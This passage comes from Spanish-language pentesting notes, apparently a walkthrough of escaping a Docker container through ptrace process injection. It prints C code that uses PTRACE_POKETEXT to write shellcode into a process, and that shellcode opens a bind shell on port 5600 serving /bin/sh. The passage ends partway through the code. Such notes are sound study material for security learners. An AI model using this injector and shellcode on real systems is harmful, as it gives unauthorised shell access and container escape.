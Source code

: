 ![Untitled](/assets/Privesc/Docker-Breakout/Untitled 8.png)

En lugar de este shellcode, se usará el que está en el segundo repositorio (línea subrayada en amarillo) y se cambiará el tamaño a 87 ya que es el tamaño correspondiente al shellcode:

![Untitled](/assets/Privesc/Docker-Breakout/Untitled 9.png)

El código quedaría así:

- shellcode
    
    ```bash
    {% raw %}
    /*
      Mem Inject
      Copyright (c) 2016 picoFlamingo
    
    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.
    
    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.
    
    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <http://www.gnu.org/licenses/>.
    */
    
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <stdint.h>
    
    #include <sys/ptrace.h>
    #include <sys/types.h>
    #include <sys/wait.h>
    #include <unistd.h>
    
    #include <sys/user.h>
    #include <sys/reg.h>
    
    #define SHELLCODE_SIZE 87
    
    unsigned char *shellcode = 
      "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";
    
    int
    inject_data (pid_t pid, unsigned char *src, void *dst, int len)
    {
      int      i;
      uint32_t *s = (uint32_t *) src;
      uint32_t *d = (uint32_t *) dst;
    
      for (i = 0; i < len; i+=4, s++, d++)
        {
          if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
    	{
    	 perror ("ptrace(POKETEXT):");
    	 return -1;
    	}
        }
      return 0;
    }
    